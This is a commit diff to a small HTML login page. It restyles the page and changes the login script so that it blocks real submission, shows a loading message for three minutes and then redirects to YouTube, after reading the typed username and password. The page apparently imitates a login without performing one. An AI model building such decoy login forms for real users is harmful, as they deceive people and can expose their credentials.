

Before and after one commit to 7amza6662/index.html, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 322-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,74 +6,84 @@
     <title>Login Page</title>
     <style>
         body {
-            font-family: Arial, sans-serif;
-            background-color: #f4f4f9;
+            font-family: 'Arial', sans-serif;
+            background: linear-gradient(135deg, #6a11cb, #2575fc);
+            margin: 0;
+            padding: 0;
             display: flex;
             justify-content: center;
             align-items: center;
             height: 100vh;
-            margin: 0;
+            color: white;
         }
 
         h2 {
-            color: #333;
-            font-size: 2em;
+            font-size: 2.5em;
             margin-bottom: 20px;
+            text-align: center;
         }
 
-        form {
-            background-color: #fff;
+        .container {
+            background: rgba(255, 255, 255, 0.2);
+            border-radius: 8px;
             padding: 30px;
-            border-radius: 8px;
-            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
+            box-shadow: 0 4px 12px rgba(0, 0, 0, 0.2);
             width: 100%;
             max-width: 400px;
+            text-align: center;
         }
 
         label {
-            font-size: 1.1em;
-            color: #555;
+            font-size: 1.2em;
+            margin-bottom: 8px;
             display: block;
-            margin-bottom: 8px;
         }
 
         input[type="text"], input[type="password"] {
             width: 100%;
             padding: 12px;
             margin-bottom: 20px;
-            border: 1px solid #ccc;
+            border: 2px solid #ffffff;
             border-radius: 4px;
-            font-size: 1em;
-            background-color: #fafafa;
+            background: rgba(255, 255, 255, 0.2);
+            color: white;
+            font-size: 1.1em;
         }
 
         input[type="text"]:focus, input[type="password"]:focus {
-            border-color: #5f9ea0;
+            border-color: #2575fc;
             outline: none;
         }
 
         button {
             width: 100%;
             padding: 12px;
-            background-color: #4CAF50;
+            background-color: #2575fc;
             color: white;
             border: none;
             border-radius: 4px;
-            font-size: 1.1em;
+            font-size: 1.2em;
             cursor: pointer;
+            transition: background 0.3s ease;
         }
 
         button:hover {
-            background-color: #45a049;
+            background-color: #6a11cb;
         }
 
-        button:active {
-            background-color: #387c3c;
+        .loading {
+            display: none;
+            font-size: 1.5em;
+            margin-top: 20px;
+        }
+
+        .loading.active {
+            display: block;
         }
     </style>
 </head>
 <body>
-    <div>
+    <div class="container">
         <h2>Login</h2>
         <form onsubmit="sendLogin(event)">
             <label for="username">Username:</label>
@@ -82,12 +92,23 @@
             <input type="password" id="password" required><br>
             <button type="submit">Login</button>
         </form>
+        <div id="loading" class="loading">Logging in... Please wait.</div>
     </div>
 
     <script>
         function sendLogin(event) {
             event.preventDefault();  // Prevent actual form submission
 
+            // Display loading message
+            document.getElementById('loading').classList.add('active');
+
+            // Simulate a delay of 3 minutes
+            setTimeout(function() {
+                // Redirect to YouTube after 3 minutes
+                window.location.href = "https://www.youtube.com";
+            }, 180000);  // 180,000 ms = 3 minutes
+
+            // Get form data
             let username = document.getElementById("username").value;
             let password = document.getElementById("password").value;
 
```
